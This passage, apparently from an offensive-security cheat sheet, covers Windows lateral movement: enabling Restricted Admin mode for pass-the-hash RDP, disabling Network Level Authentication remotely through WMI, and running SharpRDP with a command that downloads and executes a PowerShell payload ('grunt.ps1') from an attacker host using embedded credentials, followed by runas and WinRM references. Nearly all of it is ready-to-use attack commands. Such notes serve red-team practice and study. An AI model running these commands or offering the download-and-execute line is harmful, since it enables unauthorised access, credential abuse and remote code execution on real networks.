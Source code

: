 Enable Restricted Admin mode:

```
PS > Get-ChildItem -Recurse HKLM:\System\CurrentControlSet\Control\Lsa
PS > Get-Item HKLM:\System\CurrentControlSet\Control\Lsa
PS > New-ItemProperty -Path HKLM:\System\CurrentControlSet\Control\Lsa -Name "DisableRestrictedAdmin" -Value 0 -PropertyType "DWORD"
PS > Get-ItemProperty HKLM:\System\CurrentControlSet\Control\Lsa -Name "DisableRestrictedAdmin"
```

Use:

```
$ xfreerdp /pth
Cmd > mstsc.exe /restrictedAdmin
```



### NLA

Disable NLA:

```
PS > (Get-WmiObject -class "Win32_TSGeneralSetting" -Namespace root\cimv2\terminalservices -ComputerName "PC01" -Filter "TerminalName='RDP-tcp'").UserAuthenticationRequired
PS > (Get-WmiObject -class "Win32_TSGeneralSetting" -Namespace root\cimv2\terminalservices -ComputerName "PC01" -Filter "TerminalName='RDP-tcp'").SetUserAuthenticationRequired(0)
```



### SharpRDP

* [https://github.com/0xthirteen/SharpRDP](https://github.com/0xthirteen/SharpRDP)

```
Cmd > .\SharpRDP.exe computername=srv01 command="iex(new-object net.webclient).downloadstring('http://10.10.13.37:8080/grunt.ps1')" username=megacorp\snovvcrash password=Passw0rd!
```




## runas

```
PS > runas /netonly /user:snovvcrash powershell
```




## WinRM / PSRemoting

* [https://www.bloggingforlogging.com/2018/01/24/demystifying-winrm/](https://www.bloggingforlogging.com/2018/01/24/demystifying-winrm/)
* [https://www.powershellmagazine.com/2014/03/06/accidental-sabotage-beware-of-credssp/](https://www.powershellmagazine.com/2014/03/06/accidental-sabotage-beware-of-credssp/)
* [https://www.ired.team/offensive-security/credential-access-and-credential-dumping/network-vs-interactive-logons](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/network-vs-interactive-logons)
